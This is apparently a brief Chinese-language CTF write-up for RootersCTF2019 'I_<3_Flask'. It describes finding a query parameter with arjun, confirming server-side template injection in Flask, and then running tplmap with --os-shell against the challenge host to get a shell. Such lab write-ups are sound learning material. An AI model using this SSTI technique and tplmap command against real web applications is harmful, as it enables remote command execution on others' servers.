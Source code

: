 # [RootersCTF2019]I_<3_Flask

## 知识点

`SSTI`

`flask`

## 解题

进入之后没有发现什么东西，使用`arjun`查一下注入参数

![](./img/[RootersCTF2019]I_3_Flask-1.png)

然后尝试`SSTI`的`payload`，发现有注入

![](./img/[RootersCTF2019]I_3_Flask-2.png)

半天`500`，直接使用`tplmap`注入

```bash
python .\tplmap.py -u "http://6230b100-f64f-4183-80f7-c8e6a83a1c40.node5.buuoj.cn:81/?name=1" --os-shell
```

![](./img/[RootersCTF2019]I_3_Flask-3.png)